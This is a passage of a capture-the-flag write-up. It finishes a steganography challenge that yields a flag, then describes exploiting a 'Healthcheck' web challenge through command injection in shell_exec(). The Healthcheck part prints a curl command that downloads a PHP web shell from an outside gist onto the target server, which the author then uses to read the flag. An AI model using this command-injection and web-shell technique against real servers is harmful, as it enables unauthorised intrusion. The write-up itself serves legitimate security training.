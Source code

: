 So the verb will be “WATCHING” and the year will be “1989”. Then I go to use an online tool to see the information from the [png file](https://github.com/umcybersec/umcs_preliminary/blob/main/stego-Hotline_Miami/rooster.jpg). [https://www.aperisolve.com/81954be3cdc998e92aeab90a8a228a18](https://www.aperisolve.com/81954be3cdc998e92aeab90a8a228a18)

Notice that the  end of the  file contains a name called RICHARD.  
![](image6.png)

Lastly, I guess the word for the “Be” which I put straight forward is “IS”. I try to submit it then boom successfully get the flag.

**Flag: umcs{RICHARD\_IS\_WATCHING\_1989}**

## **Web: Healthcheck**

[https://github.com/umcybersec/umcs\_preliminary/tree/main/web-healthcheck](https://github.com/umcybersec/umcs_preliminary/tree/main/web-healthcheck) 

![](image7.png)  
First of all, I reviewed the source code and found that the source code does some good practice in secure coding but it is not secure enough because of using `shell_exec()` function which is vulnerable to Remote Code Execution (RCE). So I input the `curl https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php -o shell.php` command to download the [shell script](https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php) given from online. After that, I browse the shell script page and `cat` the flag content.   
